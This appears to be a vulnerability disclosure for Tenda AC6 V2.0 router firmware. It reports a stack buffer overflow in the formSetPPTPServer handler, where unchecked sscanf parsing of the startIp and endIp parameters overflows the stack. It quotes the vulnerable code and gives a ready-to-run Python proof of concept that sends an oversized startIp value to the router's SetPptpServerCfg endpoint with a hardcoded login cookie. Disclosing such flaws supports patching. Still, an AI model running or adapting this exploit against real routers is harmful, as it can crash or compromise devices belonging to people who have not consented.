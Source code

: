 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetPPTPServer"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the function `formSetPPTPServer`, user-supplied input for the parameters **`startIp`** and **`endIp`** is assigned to variables on the stack using `sscanf` **without proper parameter validation**, leading to a **stack overflow**.

```c
sscanf(
             pptp_server_end_ip,
             "%[^.].%[^.].%[^.].%s",
             pptp_server_end_each_ip,
             pptp_server_end_each_ip[1],
             pptp_server_end_each_ip[2],
             pptp_server_end_each_ip[3]) != 4 )
```

![image-20250614185807558](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614185807558.png)

poc

```python
import requests
def send_payload(url, startIp, endIp):
    params={'serverEn':1,
            'startIp':startIp,
            'endIp':endIp}
    cookie={'password':'vkntgb'}
    response = requests.post(url, cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

startIp=b'a'*0x2048+b".0.0.0"
endIp=b'a'
url="http://192.168.1.1/goform/SetPptpServerCfg"
send_payload(url, startIp,endIp)   
```

![image-20250614203518515](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614203518515.png)